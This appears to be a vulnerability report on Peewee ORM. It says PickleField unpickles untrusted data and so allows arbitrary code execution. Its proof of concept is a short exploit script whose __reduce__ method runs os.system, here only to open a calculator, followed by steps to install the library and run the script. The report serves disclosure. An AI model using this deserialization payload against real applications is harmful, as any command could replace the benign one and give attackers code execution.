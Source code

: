 # Description
Peewee is a simple and small ORM. It has few (but expressive) concepts, making it easy to learn and intuitive to use.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install peewee')
from playhouse import fields
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
fields.PickleField.python_value(dumps,dumps)
```
* `pip3 install peewee`
* `python3 exploit.py`
